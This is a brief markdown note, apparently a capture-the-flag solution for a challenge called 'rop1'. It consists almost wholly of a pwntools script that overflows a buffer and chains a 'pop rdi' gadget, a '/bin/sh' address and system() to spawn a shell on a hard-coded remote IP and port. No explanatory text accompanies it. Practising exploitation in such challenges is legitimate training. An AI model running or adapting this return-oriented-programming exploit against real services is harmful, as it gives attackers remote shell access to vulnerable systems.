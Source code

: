 # rop1
```python
from pwn import *
sh_addr=0x601070
sys_addr=0x400630
rdi_addr=0x4008e3
pay='a'*(0x4+8)+p64(rdi_addr)+p64(sh_addr)+p64(sys_addr)
#p=process('./rop1')
p=remote('129.211.58.26',10001)
p.sendline(pay)
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbODA3Njk3MDgzXX0=
-->